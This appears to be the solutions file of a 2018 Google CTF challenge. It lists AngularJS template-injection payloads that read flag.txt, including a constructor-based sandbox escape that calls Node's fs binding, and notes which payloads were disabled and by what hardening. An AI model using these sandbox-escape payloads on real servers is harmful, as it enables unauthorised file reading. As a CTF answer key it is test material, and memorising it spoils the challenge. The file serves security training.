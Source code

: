 <!--
Copyright 2018 Google LLC

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

    https://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.
-->

# Expected
```
{{window.angular.element(window.document.body).injector().get('i18n').template('flag.txt')}}
```

or simply

```
{{i18n.template('flag.txt')}}
```

if you inject in the right place

## Obsolete payloads

rjamet (disabled by removing the require proxy, that was lame):
```
{{window.angular.element(window.document.body).injector().get('safeRequire')('fs').readFileSync('./flag.txt')}}
```

epuig (disabled by wrapping AngularJS in vm2, that was too generic):
```
{{''.constructor.constructor('return b=new Buffer(100),process.binding("fs").read(process.binding("fs").open("flag.txt", 0, 0755), b, 0, 100),b+""')()}}
```
